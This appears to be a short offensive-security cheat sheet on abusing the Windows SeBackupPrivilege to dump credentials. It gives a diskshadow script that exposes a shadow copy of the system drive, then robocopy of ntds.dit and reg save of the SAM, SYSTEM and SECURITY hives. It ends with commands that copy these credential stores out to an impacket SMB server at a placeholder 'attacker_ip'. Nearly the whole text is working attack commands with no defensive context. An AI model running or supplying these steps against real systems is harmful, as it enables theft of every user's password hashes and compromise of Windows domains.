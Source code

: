 # SeBackupPrivileges 
we can restore the backup files that contains the All system user NTLM Hash 

# Steps
1. Create a .dsh file and convert it
2. upload the compiler file
3. Disk shadow and robocopy of the files
4. save the files
5. Download it using the smbserver

# Create viper.dsh file
```language
set context persistent nowriters
add volume c: alias viper
create
expose %viper% x:
```
# Convert and upload  it
```language
unix2dos viper.dsh

upload viper.dsh
```
# Make a Disk Shadow
```language
diskshadow /s viper.dsh
```
# Save the files
```language
robocopy /b x:\windows\ntds . ntds.dit
reg save hklm\system c:\windows\tasks\system
reg save hklm\sam c:\windows\tasks\sam
reg save hklm\security c:\windows\tasks\security
```
# Download it 
```language
#start a smb server
impacket-smbserver share ./ -smb2support -user 0xmr -pass ''

# connect it
net use \\attacker_ip\share /user:0xmr

# copy all files
copy sam, ntds.dit, system, security \\attacker_ip\share 
```
